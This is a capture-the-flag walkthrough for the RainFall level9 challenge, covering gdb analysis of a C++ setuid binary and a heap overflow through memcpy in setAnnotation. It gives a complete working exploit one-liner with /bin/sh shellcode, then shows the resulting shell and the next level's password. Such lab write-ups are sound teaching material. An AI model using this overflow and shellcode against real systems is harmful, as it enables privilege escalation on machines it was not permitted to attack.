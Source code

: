 # Level9

We can find an executable who do nothing yet
```
level9@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus0 users 6720 Mar  6  2016 level9
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 bla
level9@RainFall:~$ ./level9 bla bla
```
After analyze it with gdb we can find 5 interesting functions :
- N::N(int)
- N::setAnnotation(char*)
- N::operator+(N&)
- N::operator-(N&)
- main
This binary is written in cpp and there is no calls to `/bin/sh`, we can assume we'll have to use shellcode this time.  
We should use the `memcpy()` on argv[1] in `setAnnotation()` to make the call to `edx` calls a shellcode. Basically, this is a buffer overflow.  
First of all, find the offset :
```
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
Starting program: /home/user/level9/level9 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441       1094083649
(gdb)
```
Thanks to the pattern generator we found that the offset of `eax` start at 108.  
Now we have the offset we can build our payload.  
*shellcode found [here](http://shell-storm.org/shellcode/files/shellcode-827.php)*  
In order to do that we must find the start address of our buffer and replace the value of `esp+0x10` by it to make the call of `edx` calls our shellcode. But, because we need to dereference twice like we want to access to the N class, our return address should points to an address which points to the start buffer :
```
(gdb) b *main+136                                    // right after the setAnnotation() call
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x41414141                           // buffer address
```
The value of [esp+0x10] will be replaced with 0x804a00c.  
Because we need to dereference again, this address will points to the beginning of our shellcode : 0x804a00c + 4 = 0x804a010.
```
payload : shell_addr + shellcode + padding + buffer_addr
          [4 bytes]   [28 bytes]  [76 bytes]  [4 bytes] = 108 + 4
```
Our final exploit will look like :  
- python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"' 
```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$ exit
level9@RainFall:~$ su bonus0
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus0/bonus0
bonus0@RainFall:~$
```
Level9 passed!
